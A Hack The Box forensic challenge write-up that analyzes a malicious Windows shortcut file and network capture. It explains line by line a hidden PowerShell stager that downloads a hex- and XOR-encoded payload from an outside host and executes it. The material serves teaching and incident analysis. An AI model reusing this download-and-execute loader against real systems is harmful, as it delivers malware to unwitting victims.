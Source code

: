 ![](assets/banner.png)

<img src='assets/htb.png' style='margin-left: 20px; zoom: 80%;' align=left /> <font size='10'>Trick or Treat</font>

11<sup>th</sup> October 2023 / Document No. D23.102.XX

Prepared By: thewildspirit

Challenge Author(s): thewildspirit

Difficulty: <font color=green>Easy</font>

Classification: Official

# Synopsis

This is a very easy and straightforward forensic challenge. It features a maliciously crafted lnk file that, when executed, downloads an encoded payload from a remote server.

## Description

* Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.  

## Skills Required

* Basic programming principles
* Basic networking knowledge

## Skills Learned

* Hex decoding
* XOR encoding
* Offensive PowerShell techniques detection
* Lnk file format analysis
* Network traffic analysis

# Enumeration

We are given the following files:
* `capture.pcap`: Network capture during the incidence.
* `trick_or_treat.lnk`: Malicious lnk file.

Firstly, we need to know what the given evidence is. 

A PCAP (Packet Capture) file is a binary data file format that stores network packet data captured by packet sniffing software or hardware. These files are commonly associated with network analysis and troubleshooting tools, like `Wireshark`, `tcpdump`, and others. PCAP files capture the actual network traffic as it flows over a network interface, making them valuable for various purposes, including network monitoring, analysis, security, and forensic investigations.

On the other hand, a .lnk file, also known as a Windows Shortcut, is a file used in the Microsoft Windows operating system to point to an executable file, program, document, or folder. These files are typically used to create shortcuts to access files or programs quickly and easily. When you double-click a `.lnk` file, it opens the associated target file or program. If we search more about this file format, we will easily understand that it is a well-known attack vector used by malicious actors and offensive security professionals. But we will come back to this subject later in this write-up.

Since the scope is much smaller, starting with the `lnk` file, we will initiate our investigation starting from it.

We have two options for analyzing this file. The first is using a tool called [LnkParse3](https://pypi.org/project/LnkParse3/). The output generated by this tool can be found below:
![](assets/lnk.png)
The valuable information from this output is:

* TARGETS: This indicates that the executable pointed by this `lnk` file is `cmd.exe`
* DATA: This includes the command line arguments of the declared target.

The second option for analyzing this file is to use the `strings` command.
![](assets/strings.png)
The reason that we provided `-el` as an argument to the `strings` command utility is:

> Windows primarily uses UTF-16LE (UTF-16 Little Endian) for text encoding and file I/O. This means that text is usually represented by Unicode characters using 16-bit code units. "Little-endian" refers to the byte order used to store the 16-bit code units in memory. In little-endian order, the least significant byte (LSB) is stored at the lowest memory address, and the most significant byte (MSB) is stored at the highest memory address.

The `-el` argument can recover this type of strings from a given file. It is a well-known and well-used technique that, most of the time, can produce "quick wins".

Let us take some time to analyze the script:

```powershell
/k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden
```
This line, searches in the `C:\Windows\SysWow64\WindowsPowerShell\v1.0\` directory if a file matches the `*rshell.exe` regex. Of course, there is such a file, and it is called `PowerShell.exe`.

```powershell
$asvods = ''
```
This line initializes an empty string variable named $asvods.

```powershell
$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko')
```
This line creates an array variable `$UserAgents` that contains three different User-Agent strings commonly used to identify the web client or browser making a request. These strings simulate different web browsers on different versions of the Windows operating system.
```powershell
$RandomUserAgent = $UserAgents | Get-Random
```
Using the `Get-Random` cmdlet, this line selects a random User-Agent string from the $UserAgents array.

```powershell
$WebClient = New-Object System.Net.WebClient
```
This line creates a WebClient object, which can be used to download content from a web server.

```powershell
$WebClient.Headers.Add('User-Agent', $RandomUserAgent)
```
This line sets the User-Agent header of the `WebClient` to the randomly selected `User-Agent` string, making the request appear as if it's coming from a specific web browser and OS.
```powershell
$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com')
```
This line uses WebClient to download the contents of the specified URL (http://windowsliveupdater.com) and stores it in the variable `$boddmei`.

```powershell
$vurnwos = ''
```
This line initializes an empty string variable named $vurnwos.

The following block of code decodes the content of $boddmei in an obfuscated way:
```powershell
$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};
```
A for loop iterates through the characters of `$boddmei`. It processes the characters in pairs and converts them from hexadecimal representation to their actual characters. It then performs a bitwise XOR operation with `0x1d` on each character. The decoded characters are appended to the `$vurnwos` string.
```powershell
Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos)):
```
This line attempts to invoke a script block created from the decoded content stored in `$vurnwos`. This script block contains the decoded, potentially malicious code retrieved from the website.

Now that we have analyzed the Powershell script, we can proceed with the network capture. 
Two important things we learned from the `lnk` analysis. The PowerShell script downloads a payload using the `HTTP` protocol and using one of the three user agents specified in the `$UserAgents` array.

With some trial and error, using this filter `http.user_agent contains "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko"` we can find the wanted request.
![](assets/filter.png)

Following the stream by right-clicking the packet and then `Follow -> HTTP Stream`, we can see the encoded payload.
![](assets/traffic.png)

# Solution
Since we know that the payload is XORed with the key `0x1d` and then hex encoded, we will use [cyberchef](https://gchq.github.io/CyberChef/) to retrieve the payload.

![](assets/flag.png)

